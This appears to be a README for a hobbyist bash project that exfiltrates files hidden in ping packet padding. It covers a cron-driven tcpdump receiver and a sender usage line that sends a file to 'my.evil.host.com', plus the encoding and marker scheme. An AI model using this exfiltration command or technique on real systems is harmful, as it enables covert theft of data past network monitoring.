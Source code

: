 <pre>
Just testing exfiltration through ping packets with bash. By no means anything complete, nor pretty nor expert level. Just some beginner's testing in bash.

This test set was running on a private VM (sender) and AWS EC2 (receiver)

Not safe at all, as you need access to ping on the sending side and tcpdump on the receiving end, running things as sudo etc.

##RECEIVER##
#1: create the cronfile on your AWS or whatever you're running the receiver on
#2: start rolling the cron
#3: cron launches beefpoller.sh which will poll for new packets. Packets of interest are recognized when containing the padding data:
    "beef15f00d1100FF"
#4: polling stops when the padding data contains:
    "dead beef"
    
##SENDER##
#1: pinger.sh takes two arguments; first one being the file to exfiltrate and the second one is the host to exfiltrate data to:
    ./pinger.sh topkek.txt my.evil.host.com
#2: converts the data to base64, then to binary and is then pushed to 16bit array, then sends the init packet containing the "beef15f00d1100FF", then the data 16bits at a time and finally the end of transmit packet containing "dead beef"

##Most likely an awful way of doing things, slow(*) as *insertbadword* and amateurish. I take no resposibility nor give any warranties.
##Comments are always welcome.
(*) Would be faster to send the data out in hex, but just as a really minor obfuscation it's first encoded to b64 and then converted to bin
</pre>
